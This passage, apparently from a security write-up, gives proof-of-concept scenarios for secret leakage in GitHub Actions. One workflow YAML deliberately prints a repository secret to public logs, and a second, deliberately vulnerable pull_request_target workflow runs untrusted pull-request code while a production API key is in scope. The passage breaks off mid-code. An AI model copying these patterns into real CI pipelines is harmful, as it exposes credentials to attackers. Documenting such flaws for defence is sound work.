     1. **Setup:**
        - Create a public GitHub repository (e.g., for a sample Golang project).
        - In the repository settings, navigate to "Secrets and variables" > "Actions" and add a new repository secret (e.g., `GH_TOKEN_FOR_POC` with a dummy value like `ghp_dummytoken123abc`).
    2. **Create a GitHub Actions Workflow:**
    Create a file named `.github/workflows/poc_leak.yml` with the following content:
    
        ```YAML
        
        name: PoC Secret Leak via Log
        on: [push]
        jobs:
          leak_secret_job:
            runs-on: ubuntu-latest
            steps:
              - name: Simulate Secret Usage and Leak
                env:
                  MY_IMPORTANT_TOKEN: ${{ secrets.GH_TOKEN_FOR_POC }}
                run: |
                  echo "Workflow starting..."
                  echo "Attempting to use token for a task (e.g., deploying a Golang app)..."
                  # The following line intentionally leaks the secret to the log
                  echo "Token Value: $MY_IMPORTANT_TOKEN"
                  echo "::set-output name=leaked_token::$MY_IMPORTANT_TOKEN" # Another way it might appear if used by actions
                  echo "Workflow finished."
        ```
    3. **Execution:** Commit and push this workflow file to the repository. This will trigger the workflow.
    4. **Observation:**
        - Navigate to the "Actions" tab of the GitHub repository.
        - Find the executed "PoC Secret Leak via Log" workflow run and click on it.
        - Open the `leak_secret_job` and inspect the logs for the "Simulate Secret Usage and Leak" step.
        - The output will contain the line: `Token Value: ghp_dummytoken123abc`. The secret is now exposed in the workflow log. If the repository is public, this log is publicly accessible.
- Scenario 2: Exploiting pull_request_target in GitHub Actions (Conceptual)
    
    This PoC outlines how an attacker can exploit a misconfigured pull_request_target trigger to execute their own code with access to the target repository's secrets.8
    
    1. **Target Repository Setup:**
        - A public GitHub repository (victim) has a workflow (e.g., `.github/workflows/vulnerable_pr_target.yml`) configured as follows:
            
            ```YAML
            
            name: Vulnerable PR Target Workflow
            on:
              pull_request_target:
                types: [opened, synchronize, reopened]
            jobs:
              dangerous_job:
                runs-on: ubuntu-latest
                env:
                  CRITICAL_SECRET: ${{ secrets.PRODUCTION_API_KEY }} # A sensitive secret
                steps:
                  - name: Checkout code from PR
                    uses: actions/checkout@v4
                    with:
                      repository: ${{ github.event.pull_request.head.repo.full_name }}
                      ref: ${{ github.event.pull_request.head.sha }}
                  - name: Run build script from PR
                    run: |